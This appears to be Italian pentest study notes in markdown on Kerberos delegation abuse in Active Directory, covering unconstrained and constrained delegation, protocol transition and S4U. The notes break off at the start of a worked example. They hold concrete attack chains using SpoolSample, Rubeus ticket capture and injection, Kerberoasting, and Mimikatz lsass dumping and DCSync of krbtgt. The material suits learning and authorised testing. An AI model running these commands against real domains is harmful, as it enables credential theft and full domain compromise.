









- [Delegation](#delegation)
  - [Unconstrained Delegation](#unconstrained-delegation)
    - [Il flusso:](#il-flusso)
    - [Perché "delegates his TGT" è così pericoloso](#perché-delegates-his-tgt-è-così-pericoloso)
    - [Lo scenario di attacco concreto](#lo-scenario-di-attacco-concreto)
      - [Piccola sottigliezza interessante!](#piccola-sottigliezza-interessante)
        - [La cosa sottile](#la-cosa-sottile)
      - [Qui non c'è nessun PRE-AUTH!](#qui-non-cè-nessun-pre-auth)
        - [Cosa mandi al DC nella TGS-REQ](#cosa-mandi-al-dc-nella-tgs-req)
          - [Il problema dell'authenticator](#il-problema-dellauthenticator)
    - [Cos'è lsass](#cosè-lsass)
    - [Cosa fa Rubeus monitor](#cosa-fa-rubeus-monitor)
  - [Constrained Delegation (S4U2Proxy)](#constrained-delegation-s4u2proxy)
    - [La differenza pratica con unconstrained](#la-differenza-pratica-con-unconstrained)
    - [L'unica eccezione — protocol transition](#lunica-eccezione--protocol-transition)
      - [TrustedToAuthForDelegation (Protocol Transition)](#trustedtoauthfordelegation-protocol-transition)
      - [Constrained delegation senza protocol transition](#constrained-delegation-senza-protocol-transition)
      - [Se trustedtoauthfordelegation: False, io ho compromesso serviceA, allora potrò chiedere un TGS solo per mario in serviceB?](#se-trustedtoauthfordelegation-false-io-ho-compromesso-servicea-allora-potrò-chiedere-un-tgs-solo-per-mario-in-serviceb)
        - [Il flusso concreto](#il-flusso-concreto)
      - [La differenza pratica rispetto a TrustedToAuthForDelegation: True](#la-differenza-pratica-rispetto-a-trustedtoauthfordelegation-true)
    - [I flag vengono settati sull'account, non sul servizio in sé](#i-flag-vengono-settati-sullaccount-non-sul-servizio-in-sé)
      - [Quando si usa l'uno o l'altro](#quando-si-usa-luno-o-laltro)
        - [Perché è importante offensivamente](#perché-è-importante-offensivamente)
    - [Esempio Completo Constrained Delegation](#esempio-completo-constrained-delegation)
      - [Step 1 — verifichi la delegation](#step-1--verifichi-la-delegation)
        - [Step 2 — dumpi l'hash di svc-web da lsass](#step-2--dumpi-lhash-di-svc-web-da-lsass)
        - [Step 3 — impersoni il DA verso FILE-SRV](#step-3--impersoni-il-da-verso-file-srv)
      - [Step 4 — accedi a FILE-SRV come Administrator](#step-4--accedi-a-file-srv-come-administrator)
    - [Il problema di partenza](#il-problema-di-partenza)
      - [S4U2Self — creare la "prova" dal nulla](#s4u2self--creare-la-prova-dal-nulla)
      - [S4U2Proxy — usare quella prova per ottenere il TGS finale](#s4u2proxy--usare-quella-prova-per-ottenere-il-tgs-finale)
        - [Il flusso visivo](#il-flusso-visivo)
      - [Perché il DC accetta S4U2Self senza che Administrator lo sappia](#perché-il-dc-accetta-s4u2self-senza-che-administrator-lo-sappia)
    - [Serve necessariamente administrator? s4u2self con un altro utente?](#serve-necessariamente-administrator-s4u2self-con-un-altro-utente)
      - [Esempi](#esempi)
      - [L'unica eccezione — utenti protetti](#lunica-eccezione--utenti-protetti)
  - [Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation-rbcd)
    - [Il problema della constrained delegation classica](#il-problema-della-constrained-delegation-classica)
    - [L'idea di RBCD](#lidea-di-rbcd)
    - [Perché è più flessibile](#perché-è-più-flessibile)
    - [Il meccanismo Kerberos](#il-meccanismo-kerberos)
    - [Esempio](#esempio)
      - [Step 1 — verifichi la configurazione RBCD su FILE-SRV](#step-1--verifichi-la-configurazione-rbcd-su-file-srv)
        - [Risolvi il SID per confermare:](#risolvi-il-sid-per-confermare)
      - [Step 2 — dumpi l'hash di WEB-SRV$ da lsass](#step-2--dumpi-lhash-di-web-srv-da-lsass)
      - [Step 3 — S4U2Self + S4U2Proxy](#step-3--s4u2self--s4u2proxy)
      - [Step 4 — accedi a FILE-SRV](#step-4--accedi-a-file-srv)
    - [Esempio 2 - non ci sono delegation configurate e le crei tu abusando di GenericWrite.](#esempio-2---non-ci-sono-delegation-configurate-e-le-crei-tu-abusando-di-genericwrite)
      - [Step 1 — crei un computer account fasullo (ogni utente di dominio può crearne fino a 10 di default):](#step-1--crei-un-computer-account-fasullo-ogni-utente-di-dominio-può-crearne-fino-a-10-di-default)
      - [Step 2 — scrivi l'attributo RBCD su PC-Luca dicendo che FakePC può delegare verso di lui:](#step-2--scrivi-lattributo-rbcd-su-pc-luca-dicendo-che-fakepc-può-delegare-verso-di-lui)
      - [Step 3 — ora FakePC può delegare verso PC-Luca. Usi S4U2Self + S4U2Proxy con le credenziali di FakePC:](#step-3--ora-fakepc-può-delegare-verso-pc-luca-usi-s4u2self--s4u2proxy-con-le-credenziali-di-fakepc)
        - [Perché funziona S4U2Self qui](#perché-funziona-s4u2self-qui)
      - [Output di Get-DomainComputer FILE-SRV -Properties msds-allowedtoactonbehalfofotheridentity](#output-di-get-domaincomputer-file-srv--properties-msds-allowedtoactonbehalfofotheridentity)
      - [Cosa fa questo comando $sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0](#cosa-fa-questo-comando-sd--new-object-securityaccesscontrolrawsecuritydescriptor--argumentlist-raw-0)
        - [Cosa contiene l'oggetto dopo la decodifica](#cosa-contiene-loggetto-dopo-la-decodifica)
      - [Cosa sono security descriptor?](#cosa-sono-security-descriptor)
        - [Cosa contiene](#cosa-contiene)
        - [Cosa sono gli ACE](#cosa-sono-gli-ace)
        - [Perché è rilevante in AD](#perché-è-rilevante-in-ad)
        - [Come le vedi in PowerShell](#come-le-vedi-in-powershell)


# Delegation
Il protocollo Kerberos consente a un utente di autenticarsi a un servizio per poterlo utilizzare, e la delega Kerberos permette a tale servizio di autenticarsi a un altro servizio come l'utente originale.


In questo esempio, un utente si autentica in WEBSRV per accedere al sito web. Una volta autenticato sul sito web, l'utente deve accedere alle informazioni memorizzate in un database, ma non dovrebbe avere accesso a tutte le informazioni in esso contenute. L'account di servizio che gestisce il sito web deve comunicare con il database utilizzando i diritti dell'utente in modo che il database consenta l'accesso solo alle risorse a cui l'utente ha il diritto di accedere. È qui che entra in gioco la delega. L'account di servizio, in questo caso ```WEBSRV$```, simulerà l'utente quando accede al database. E questo magico processo è chiamato delegation.





## Unconstrained Delegation
Consente ad un servizio, in questo caso WEBSRV, di impersonare un utente durante l'accesso in ogni servizio. Si tratta di un privilegio molto permissivo e pericoloso, pertanto non tutti gli utenti possono concederlo.


Affinché un account disponga di un unconstrained delegation, nella scheda **Delegation** dell'account, la voce ```Trust this computer for delegation to any service (Kerberos only)``` deve essere selezionata:


Solo un amministratore o un utente con privilegi elevati, a cui tali privilegi sono stati esplicitamente concessi, può impostare questa opzione per altri account. Più precisamente, è necessario disporre del provilegio **SeEnableDelegationPrivilege** per eseguire questa azione. Un account di servizio non può modificare le proprie impostazioni per aggiungere questa opzione.

- Nello specifico, quando questa opzione è abilitata, il flag ```TRUSTED_FOR_DELEGATION``` viene impostato sull'account tra i flag del Controllo account utente (UAC).
- Quando questo flag è impostato su un account di servizio e un utente effettua una richiesta TGS per accedere a tale servizio, il controller di dominio aggiungerà una copia del TGT dell'utente al ticket TGS. In questo modo, l'account di servizio può estrarre questo TGT e quindi effettuare richieste TGS al controller di dominio utilizzando una copia del TGT dell'utente. Il servizio disporrà quindi di un ticket TGS o di un ticket di servizio (ST) valido come l'utente e potrà accedere a qualsiasi servizio come l'utente.




### Il flusso:
- 1-2 — Mario si autentica al DC e ottiene il suo TGT.
- 3-4 — Mario chiede un TGS per Service A e lo ottiene.
- 5 — "authenticates with TGS and delegates his TGT" — questo è il punto critico. Mario manda al Service A non solo il TGS, ma anche il suo TGT completo. Service A ora ha in memoria il TGT originale di Mario.
- 6-7 — Service A usa il TGT di Mario per chiedere al DC un TGS per Service B, come se fosse Mario stesso a chiederlo. Il DC non sa distinguere, il TGT è valido e appartiene a Mario.
- 8 — Service A presenta quel TGS a Service B, impersonando completamente Mario.

### Perché "delegates his TGT" è così pericoloso
- Il TGT è la chiave master di Mario, con esso puoi chiedere ticket per qualsiasi servizio nel dominio. Quando Mario lo consegna a Service A, sta dicendo di fatto **"fai qualsiasi cosa per conto mio, verso chiunque"**.
- La cosa grave è che Mario non sceglie di farlo consapevolmente, **è Windows che lo fa automaticamente quando Service A ha la flag di unconstrained delegation**. Mario non vede nessun avviso, nessuna conferma.

### Lo scenario di attacco concreto
Tu hai compromesso Service A (che ha unconstrained delegation). Aspetti che un DA si autentichi a quel servizio — magari forzandolo tu stesso con il printer bug (vedi pagina AD.md per saperne di più del printer bug):
```
# Forza il DC a autenticarsi a Service A (printer bug)
SpoolSample.exe dc.corp.local serviceA.corp.local

# Nel frattempo su Service A aspetti il TGT del DC
Rubeus.exe monitor /interval:1 /filteruser:dc$

# Quando arriva, lo inietti nella tua sessione
Rubeus.exe ptt /ticket:<base64-ticket>

# Ora hai il TGT del DC — puoi fare DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
Il TGT del domain controller è equivalente a essere DA — con esso puoi fare DCSync e dumpare tutti gli hash del dominio.
```

#### Piccola sottigliezza interessante!
Quando fai DCSync con il TGT del DC, il flusso Kerberos normale avviene, Mimikatz usa quel TGT per chiedere un TGS per il servizio di replica AD (ldap/dc.corp.local), poi usa quel TGS per parlare con il DC e richiedere la replica delle credenziali.
```
Tu (con TGT del DC$) → chiedi TGS per ldap/dc.corp.local → DC risponde con TGS
Tu → usi TGS per fare replica DRSUAPI → DC ti manda gli hash
```
Il DC accetta la richiesta di replica perché dal suo punto di vista sta parlando con se stesso — il TGT appartiene a DC$, che ha i diritti di replica per design.

##### La cosa sottile
DCSync non è un attacco che sfrutta una vulnerabilità tecnica di Kerberos — sfrutta il fatto che i DC hanno il privilegio ```Replicating Directory Changes All``` per sincronizzarsi tra loro. Mimikatz simula il comportamento di un DC secondario che chiede al DC primario di replicare le credenziali, usando il protocollo legittimo DRSUAPI.

Quindi il flusso completo dall'inizio è:
1. Comprometti macchina con unconstrained delegation
2. Forzi DC$ ad autenticarsi → rubi il suo TGT
3. Inietti il TGT di DC$ nella tua sessione
4. Chiedi TGS per ldap/dc.corp.local (usando TGT di DC$)
5. DC rilascia TGS perché il TGT è valido
6. Usi TGS per fare DRSUAPI replication request
7. DC ti manda gli hash di krbtgt, Administrator, tutti

Dal punto di vista del DC è tutto legittimo — vede un altro DC che si sta sincronizzando. Non sa che sei tu.

#### Qui non c'è nessun PRE-AUTH!

- **La preauth serve solo per ottenere il TGT**
- La preauth (step 1 del flusso Kerberos) serve esclusivamente nella fase AS-REQ — quando chiedi il TGT al DC per la prima volta. È lì che dimostri di conoscere la chiave dell'utente cifrando il timestamp.
- Ma tu il TGT di DC$ lo hai già — l'hai rubato dalla memoria di Service A. Quindi salti completamente la fase di preauth e entri direttamente alla fase 2.
```
Flusso normale:
AS-REQ (preauth con chiave di DC$) → AS-REP (TGT) → TGS-REQ → TGS-REP → servizio

Flusso con TGT rubato:
[salti AS-REQ completamente]  →  TGS-REQ (presenti TGT rubato) → TGS-REP → servizio
```

##### Cosa mandi al DC nella TGS-REQ
Quando usi il TGT rubato per chiedere un TGS, mandi:

- il TGT di DC$ (che hai rubato)
- un authenticator cifrato con la chiave di sessione contenuta nel TGT
- il nome del servizio che vuoi (ldap/dc.corp.local)

Il DC decifra il TGT con krbtgt, trova la chiave di sessione dentro, verifica l'authenticator, e rilascia il TGS — vedendo solo che DC$ sta chiedendo un ticket, senza sapere che sei tu.


###### Il problema dell'authenticator

Aspetta — hai detto che l'authenticator è cifrato con la chiave di sessione contenuta nel TGT. Ma quella chiave di sessione non la conosci tu — è dentro il TGT cifrato con krbtgt, che non puoi leggere.

La risposta è che quando Rubeus cattura il TGT dalla memoria di lsass, **cattura non solo il TGT ma anche la chiave di sessione associata — perché lsass le tiene entrambe in memoria per poterle usare**. Quindi hai tutto il necessario per costruire una TGS-REQ valida.
```
powershell# Rubeus cattura TGT + chiave di sessione insieme
Rubeus.exe monitor /interval:1 /filteruser:dc$

# Output contiene il ticket completo con tutto il necessario
# per fare TGS-REQ senza mai fare preauth
Rubeus.exe ptt /ticket:<base64>
```

Ecco perché rubare un TGT dalla memoria è così potente — non stai solo rubando un token, stai rubando tutto il materiale crittografico necessario per impersonare quell'account completamente.

### Cos'è lsass
- lsass.exe (Local Security Authority Subsystem Service) è il processo Windows responsabile di gestire tutte le autenticazioni. Ogni volta che un utente si autentica su quella macchina, lsass riceve le credenziali, le verifica, e poi le tiene in memoria per tutta la durata della sessione — inclusi TGT e chiavi di sessione.
- Quindi lsass è fondamentalmente un deposito di credenziali attive in memoria.

### Cosa fa Rubeus monitor
- Rubeus.exe monitor non intercetta traffico di rete — apre un handle al processo lsass con **SeDebugPrivilege** (lo stesso che abiliti con **privilege::debug** in Mimikatz) e **legge direttamente le strutture dati in memoria dove lsass conserva i ticket Kerberos**.
- Ogni secondo (con /interval:1) controlla se sono apparsi nuovi ticket in memoria. Quando il DC si autentica a Service A per via del printer bug, lsass di Service A riceve e salva il TGT di DC$ — e Rubeus lo vede comparire.

```
lsass memory su Service A:
┌─────────────────────────────────┐
│ Sessione Mario    → TGT Mario   │
│ Sessione DC$      → TGT DC$  ← │ Rubeus lo legge qui
└─────────────────────────────────┘
```


## Constrained Delegation (S4U2Proxy)


Con constrained delegation, il DC controlla la lista ```msds-allowedtodelegateto``` di Service A prima di rilasciare il TGS. Se Service A ha nella lista solo cifs/serviceB, il DC rilascia TGS solo per quel servizio e rifiuta qualsiasi altra richiesta.
```
Service A chiede TGS per serviceB → DC controlla lista → serviceB c'è → OK
Service A chiede TGS per serviceC → DC controlla lista → serviceC NON c'è → RIFIUTATO
```

### La differenza pratica con unconstrained
- In unconstrained delegation il DC non controlla nulla — rilascia il TGT completo al servizio e da quel momento il servizio fa quello che vuole. È il servizio stesso che poi chiede i TGS che preferisce, senza che il DC possa limitarlo.
- In constrained delegation invece il DC mantiene il controllo — è lui che rilascia i TGS uno per uno, verificando ogni volta se quel servizio ha il permesso di delegare verso la destinazione richiesta. Il servizio non ha mai il TGT dell'utente, ha solo i TGS specifici che il DC ha deciso di dargli.
```
Unconstrained:  DC dà TGT a Service A → Service A fa da solo tutto
Constrained:    Service A chiede TGS al DC ogni volta → DC decide se concederlo
```


### L'unica eccezione — protocol transition


C'è una variante chiamata **protocol transition (TrustedToAuthForDelegation)** dove Service A può usare S4U2Self per impersonare qualsiasi utente verso se stesso, anche se quell'utente non si è mai autenticato con Kerberos. Ma anche in questo caso può delegare solo verso i servizi nella sua lista — non verso serviceC.
Dal punto di vista offensivo quindi con constrained delegation sei limitato — puoi impersonare chiunque ma solo verso quei servizi specifici. L'obiettivo diventa trovare un servizio nella lista che ti dia accesso utile, tipo **cifs/dc.corp.local** o **ldap/dc.corp.local** — che se presenti ti danno di fatto accesso da DA.

#### TrustedToAuthForDelegation (Protocol Transition)
```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto, trustedtoauthfordelegation
samaccountname            : svc-web
msds-allowedtodelegateto  : {cifs/FILE-SRV.corp.local, 
                             cifs/FILE-SRV}
trustedtoauthfordelegation: True
```
Il campo **trustedtoauthfordelegation: True** significa che questo account può usare **S4U2Self** — cioè può creare una prova di autenticazione per qualsiasi utente dal nulla, senza che quell'utente si sia mai autenticato. È la flag più pericolosa perché combina S4U2Self + S4U2Proxy.

#### Constrained delegation senza protocol transition
```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto, trustedtoauthfordelegation
samaccountname            : svc-sql
msds-allowedtodelegateto  : {MSSQLSvc/DB-SRV.corp.local,
                             MSSQLSvc/DB-SRV}
trustedtoauthfordelegation: False
```
Il campo **trustedtoauthfordelegation: False** significa che questo account **NON** può usare **S4U2Self** — non può creare ticket per utenti arbitrari. **Può delegare solo se l'utente si è già autenticato a lui con Kerberos e gli ha passato un TGS**. Molto più limitato dal punto di vista offensivo.




> Con True sei completamente libero — impersoni Administrator. Con False devi aspettare che un utente interessante si autentichi al servizio e catturarne il TGS — molto più situazionale.

#### Se trustedtoauthfordelegation: False, io ho compromesso serviceA, allora potrò chiedere un TGS solo per mario in serviceB?
Con **TrustedToAuthForDelegation: False** non puoi usare S4U2Self, quindi **non puoi creare una prova di autenticazione dal nulla**. Puoi usare S4U2Proxy solo se hai già un TGS di Mario verso Service A — cioè Mario si deve essere autenticato a Service A con Kerberos e quel TGS deve esistere da qualche parte.

##### Il flusso concreto
Mario si autentica normalmente a Service A durante il suo lavoro quotidiano. Quel TGS finisce in memoria su Service A. Tu hai compromesso Service A, quindi puoi rubarlo:
```
# Cerchi TGS in memoria su Service A
Rubeus.exe dump /service:svc-web /nowrap
# Trovi il TGS di Mario verso svc-web
```

Ora hai il TGS di Mario verso Service A — lo usi come input per S4U2Proxy:
```
# Usi il TGS di Mario per chiedere un TGS verso Service B
Rubeus.exe s4u /ticket:<TGS-mario-verso-serviceA> /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

Il DC controlla due cose — il TGS di input è valido e appartiene a Mario, e Service A ha cifs/FILE-SRV nella lista msds-allowedtodelegateto. Se entrambe ok, rilascia il TGS per Mario verso FILE-SRV.

#### La differenza pratica rispetto a TrustedToAuthForDelegation: True



> Con False sei fondamentalmente in attesa — devi sperare che un utente interessante si autentichi a Service A mentre tu hai già compromesso la macchina. Con True invece agisci immediatamente senza dipendere da nessuno.

###  I flag vengono settati sull'account, non sul servizio in sé
Entrambi possono averli — sia account utente che account computer:
```
# Cerca account UTENTE con constrained delegation
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto

# Cerca account COMPUTER con constrained delegation
Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto
```

#### Quando si usa l'uno o l'altro
- Un servizio come IIS o SQL che gira con un account utente dedicato (svc-web, svc-sql) avrà il flag sull'account utente. È una scelta dell'amministratore — usa un account utente perché è più facile da gestire, configurare, e assegnare permessi specifici.
- Un servizio che gira come NETWORK SERVICE o LOCAL SYSTEM usa implicitamente l'account computer della macchina. In quel caso il flag di delegation viene settato sull'account computer WEB-SRV$.
```
IIS gira come svc-web     →  flag su svc-web@corp.local
IIS gira come NETWORK SERVICE  →  flag su WEB-SRV$
```

##### Perché è importante offensivamente
- Se il flag è su svc-web@corp.local (account utente) — devi trovare la password o l'hash di quell'account utente per fare S4U. Lo ottieni con Kerberoasting (se ha uno SPN) o dumpando lsass sulla macchina dove il servizio è in esecuzione.
- Se il flag è su WEB-SRV$ (account computer) — devi essere local admin su quella macchina e dumpare l'hash dell'account computer da lsass. L'hash dell'account computer non è craccabile (password randomica 120 chars), ma non ti serve craccarlo — ti basta usarlo direttamente con Rubeus.
```
# Caso 1: flag su account utente svc-web
# Kerberoasti svc-web e cracchi la password
Rubeus.exe kerberoast /user:svc-web /format:hashcat

# Oppure dumpi lsass sulla macchina
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Trovi hash di svc-web → usi direttamente con s4u

# Caso 2: flag su account computer WEB-SRV$
# Sei local admin su WEB-SRV, dumpi lsass
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Trovi hash di WEB-SRV$ → usi con s4u
Rubeus.exe s4u /user:WEB-SRV$ /aes256:<hash> /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

> In entrambi i casi il punto di partenza è sempre avere l'hash dell'account su cui è configurata la delegation — che sia utente o computer.

- Sia **LOCAL SYSTEM** che **NETWORK SERVICE** quando parlano con la rete usano l'identità di WEB-SRV$ — cioè l'account computer della macchina. **Questo è il motivo per cui se un servizio che gira con questi account ha delegation configurata, il flag è sull'account computer e non su un account utente.**
- Molti admin usano **LOCAL SYSTEM** o **NETWORK SERVICE** per comodità — non devono gestire password, rotazioni, permessi. **E questo è esattamente perché in un pentest trovi spesso delegation configurata su account computer invece che su account utente dedicati.**


### Esempio Completo Constrained Delegation
- WEB-SRV = Service A — server web IIS, gira con l'account svc-web@corp.local
